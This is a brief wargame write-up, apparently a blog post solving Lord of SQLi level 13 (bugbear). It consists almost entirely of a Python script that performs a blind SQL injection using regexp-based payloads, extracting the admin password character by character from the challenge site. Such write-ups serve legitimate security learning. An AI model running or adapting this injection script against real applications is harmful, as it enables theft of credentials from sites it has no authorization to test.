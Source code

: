 ```yaml
---
title: "LOS 13번"
date: 2020-08-07
tag: [pwnable]
layout: post
part: WEB
---
```


{% highlight python %}
import requests

url = "https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php"

headers={"Cookie": "PHPSESSID=5hs4v4mu95ovdpmiij918hfdrq"}
st = ""
for i in range(8):
  for j in range(48,127):
    if chr(j) == '?': continue
    params = {"no":"1||(id)regexp(\"admin\")&&(pw)regexp(\"^{}\")".format(st+chr(j))}
    r = requests.get(url = url, params = params, headers = headers)
    if 'Hello admin' in r.text: 
      print(chr(j))
      st+=chr(j)
      break
print(st)
{% endhighlight %}
